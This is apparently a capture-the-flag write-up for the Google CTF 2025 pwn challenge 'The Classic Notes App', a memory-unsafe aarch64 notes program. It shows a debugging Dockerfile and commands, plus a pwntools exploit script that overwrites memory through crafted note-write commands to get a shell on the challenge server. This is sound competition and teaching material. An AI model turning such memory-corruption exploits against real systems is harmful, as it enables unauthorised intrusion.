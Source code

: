 ```yaml
---
title: Google CTF 2025 Writeup | PWN - The Classic Notes App
slug: googlectf25-the-classic-notes-app
author: Utkarsh M
date: '2025-07-16'
description: "Writeup and solution for the Google CTF 2025 - The Classic Notes App challenge."
categories:
  - CTFs
tags:
  - write up
  - web
  - ctf
  - google
  - googlectf
  - reverse engineering
  - pwn
  - re
  - vm
image: /assets/img/ctf/googlectf25/the-classic-notes-app.png
---
```


### Challenge Details

> RC's notebook server. RC does not care about memory safety because *** protects him!<br>
> Author: RC, roguebantha


Connection string: `the-classic-notes-app.2025.ctfcompetition.com 1337`

files: `ctf.c, Dockerfile, nsjail.cfg, qemu-aarch64`

-------------------

## Application

It's a simple note-taking application built for the aarch64 architecture running through QEMU on the challenge server.

You can interact with it using commands like:

```sh
Give me your command:
R 1    
Note at 1: World!
Give me your command:
C 3
Give me your command:
W 2 0 3ABC
Give me your command:
R 2
Note at 2: ABC�
Give me your command:
```

## Solving the challenge

Updated Dockerfile to debug with gdb (gdb-multiarch):

```Dockerfile
# Copyright 2025 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
FROM ubuntu:24.04 as chroot

# ubuntu24 includes the ubuntu user by default
RUN /usr/sbin/userdel -r ubuntu && /usr/sbin/useradd --no-create-home -u 1000 user

RUN apt update && apt install -y python3-full binutils-aarch64-linux-gnu gcc-aarch64-linux-gnu

COPY qemu-aarch64 /home/user/qemu-aarch64
COPY ctf.c /home/user/ctf.c
COPY flag.txt /home/user/flag.txt
RUN aarch64-linux-gnu-gcc /home/user/ctf.c -o /home/user/ctf -march=armv8.5-a+memtag -fPIE -pie

RUN cp /usr/bin/env /home/user/env

FROM gcr.io/kctf-docker/challenge@sha256:9f15314c26bd681a043557c9f136e7823414e9e662c08dde54d14a6bfd0b619f

COPY --from=chroot / /chroot

# COPY nsjail.cfg /home/user/
RUN apt install -y socat
CMD socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"/chroot/home/user/env GLIBC_TUNABLES='glibc.mem.tagging=1' /chroot/home/user/qemu-aarch64 -L /chroot/usr/aarch64-linux-gnu/ -g 7878 /chroot/home/user/ctf"
# 
```

commands to debug:

```sh
# starting the container 
docker build -t gdb-build  .
docker run --name cn-gctf-2 -p 1337:1337 -p 7878:7878 --rm   --cap-add=SYS_ADMIN   --cap-add=SYS_PTRACE   --security-opt seccomp=unconfined   --security-opt apparmor=unconfined   --privileged   gdb-build 

# Inside gdb
file ./ctf # copied from :D docker container
set architecture aarch64
target remote localhost:7878
```


The following image illustrates the solution process for the challenge in detail.

![](/assets/img/ctf/googlectf25/the-classic-notes-app.png)

## solution

```py
import pwn

while True:
    try:
        t = pwn.remote('the-classic-notes-app.2025.ctfcompetition.com', 1337)
        t.timeout = None
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 1 32 2' + b'\xa0\x02')
        k = t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 0 4' + b'exit')
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 50 100'+ b'\xAA'*100)
        print(k)
        t.interactive()
        break
    except EOFError:
        try:
            t.close()
        except Exception:
            pass
        continue
```

[Github Gist ](https://gist.github.com/Utkar5hM/6606ed6bbde5e3729a13b7f8a778c2e6)

## Obtaining the flag

![](/assets/img/ctf/googlectf25/the-classic-notes-app-2.png)